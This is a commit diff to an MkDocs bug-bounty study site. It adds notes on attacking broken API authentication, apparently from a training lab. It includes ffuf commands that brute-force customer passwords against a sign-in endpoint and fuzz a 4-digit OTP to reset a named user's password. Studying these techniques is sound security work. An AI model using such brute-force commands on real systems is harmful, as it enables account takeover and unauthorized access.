

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/api-attacks.md, in a window 1280 px wide and 900 px high, scrolled down 624 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
begin api attacks page

````diff
--- a/docs/bug-bounty-guide/api-attacks.md
+++ b/docs/bug-bounty-guide/api-attacks.md
@@ -20,14 +20,24 @@ curl -s -w "\n" -X 'GET' \
 done
 ```
 
-
-
 ## Broken Authentication
 
 - [API2:2023](https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/)
 - The authentication mechanisms of the API can be bypassed or circumvented, allowing unauthorized access
 
-
+- Authenticate as one user
+- Find what is accessible for their role
+- Try changing password to "pass" and inspect error message to see if allows weak passwords
+- If weak passwords are allowed can try fuzzing passwords for known users
+- try an incorrect password to get error message
+- fuzz passwords with ffuf
+```bash
+ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://94.237.120.112:34036/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
+```
+- fuzz OTP for password reset
+```bash
+ffuf -w /opt/useful/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -u http://94.237.120.112:34036/api/v1/authentication/customers/passwords/resets -X POST -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "OTP": "FUZZ", "NewPassword": "password"}' -fr "false" -t 100
+```
 
 ## Broken Object Property Level Authorization
 
````
